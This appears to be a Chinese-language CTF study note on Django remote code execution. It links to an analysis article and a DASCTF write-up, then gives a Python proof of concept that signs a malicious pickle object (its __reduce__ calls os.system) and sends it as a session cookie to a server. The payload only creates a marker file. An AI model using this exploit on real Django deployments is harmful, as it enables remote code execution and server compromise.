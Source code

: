 # 文章
[Django任意代码执行0day漏洞分析_django有反序列化漏洞吗_FLy_鹏程万里的博客-CSDN博客](F:\LocalCTF\Django任意代码执行0day漏洞分析_django 3.2.18 漏洞利用_FLy_鹏程万里的博客-CSDN博客.html)

# 例题
[DASCTF 2023 & 0X401 Web WriteUp | Boogiepop Doesn’t Laugh](F:\LocalCTF\DASCTF 2023 & 0X401 Web WriteUp _ Boogiepop Doesn't Laugh.html)

# POC
```python
import os
import urllib2
import cookielib
from django.conf import settings
from django.core import signing
from django.contrib.sessions.backends import signed_cookies

os.environ.setdefault('DJANGO_SETTINGS_MODULE','settings')


class Run(object):
    def __reduce__(self):
        return (os.system,('touch /tmp/xxlegend.log',))
sess = signing.dumps(Run(), serializer=signed_cookies.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies')
print sess


url = 'http://10.24.35.228:8000/favicon.ico'
headers = {'Cookie':'sessionid="%s"' %(sess)}
request = urllib2.Request(url,headers = headers)
response = urllib2.urlopen(request)
print response.read()
```
